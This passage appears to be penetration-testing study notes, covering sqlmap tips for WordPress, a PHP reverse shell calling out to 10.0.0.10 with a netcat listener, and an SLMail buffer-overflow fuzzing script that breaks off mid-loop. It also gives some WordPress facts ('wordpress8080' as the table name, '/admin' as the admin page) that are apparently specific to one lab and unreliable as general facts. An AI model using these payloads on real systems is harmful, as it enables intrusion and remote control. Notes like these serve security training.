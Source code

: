 2. `sqlmap` can often take ages, but it stores data to disk as it goes. So if you perform a keyboard interrupt you can often get right back to where you were.

3. The default table name for a Wordpress site is `wordpress8080`

4. The Wordpress admin page lives as `/admin`

5. [This gist](https://gist.github.com/rshipp/eee36684db07d234c1cc) shows an easy way to get a reverse PHP shell

   ```php
   <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
     ?>
   ```

   Before visiting the page, you should set up the listener.

   ```bash
   nc -nlvp 1234
   ```

6. Since the `POST` method doesn't show the data as query parameters, you will have to use the `--data` option of `sqlmap`. More information on using `sqlmap` with `POST` can be found [here](https://www.binarytides.com/using-sqlmap-with-login-forms/).

7. John the Ripper is a useful piece of software in Kali that can crack passwords.

## Exploiting Buffer Overflows

### Resources

Before attempting a buffer overflow, you should read up on how the CPU works on a low level.

1. [Program Counter / Instruction Pointer](https://en.wikipedia.org/wiki/Program_counter)
2. [Call Stack](https://en.wikipedia.org/wiki/Call_stack)
3. [Buffer Overflow Overview](http://www.cse.scu.edu/~tschwarz/coen152_05/Lectures/BufferOverflow.html)
4. [SLMail Buffer Overflow Tutorial](https://www.hugohirsh.com/?p=509)
5. [Writing An Exploit](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/)
6. [Simple Buffer Overflows](https://netsec.ws/?p=180)

### Steps

1. Setup the machine with the vulnerability and open Immunity Debugger.

2. Attach Immunity Debugger to the application and start it up.

3. Determine how to cause the buffer overflow - you will most likely be told. When you know, you can start to fuzz the input to cause a crash. The following script was used for SLMail and comes from [here](https://www.hugohirsh.com/?p=509).

   ```python
   # SLMail Tutorial
   import socket

   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

   buffer = "A" * 100

   while len(buffer) <= 4000:
       try:
           print "We are fuzzing with a length of %s bytes" % len(buffer)
           s.connect(('<address>', 110))
           data = s.recv(1024)
           s.send('USER user ' + '\r\n')
           data = s.recv(1024)
           s.send('PASS ' + buffer + '\r\n')
           data = s.recv(1024)
   ```